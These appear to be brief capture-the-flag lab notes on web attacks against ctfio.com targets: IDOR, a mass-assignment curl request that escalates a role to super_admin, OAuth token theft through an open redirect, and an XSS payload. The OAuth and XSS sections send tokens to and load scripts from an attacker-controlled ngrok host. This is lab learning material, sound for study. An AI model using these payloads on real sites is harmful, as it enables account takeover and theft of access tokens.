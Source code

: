 ___

# IDOR

```
GET https://0hl3b40h.eu1.ctfio.com/api/v1/user/2
```

![[Pasted image 20241217171151.png]]

![[Pasted image 20241217171523.png]]

# Invite Systems

![[Pasted image 20241217172150.png]]

![[Pasted image 20241217172208.png]]

## 1

![[Pasted image 20241217172546.png]]

![[Pasted image 20241217172642.png]]

# Mass Assigment

Response,
```json
const user = {"id":1,"username":"ben","role":"user"};
```

```bash
curl 'https://69xknhzf.eu1.ctfio.com/settings' --compressed -X POST -H 'Cookie: token=9435b4e9dd38cf2a8458fb3  
167186173' --data-raw 'website=http%3A%2F%2Fwww.google.com&phone=123456789&bio=Test&role=super_admin'
```

![[Pasted image 20241217175156.png]]

# OAuth Flow using Open Redirect

```js
document.location.hash.substr(1)
```

```
https://auth.fluorite.ctfio.com/auth?client_id=1&redirect_url=https://fluorite.ctfio.com/redirect?url=https://e949-83-213-97-233.ngrok-free.app/test.html&response_type=token
```

```html
<html>
<head>
    <title>Hello World :-)</title>
</head>
<body>

Hello World :-)
<script>
    window.location = 'x/' + document.location.hash.substr(1);
</script>

</body>
</html>
```

![[Pasted image 20241217180517.png]]

# XSS

```html
"><img/src=x onerror=import("https://e949-83-213-97-233.ngrok-free.app/1.js")>
```

```js
alert(1);//
```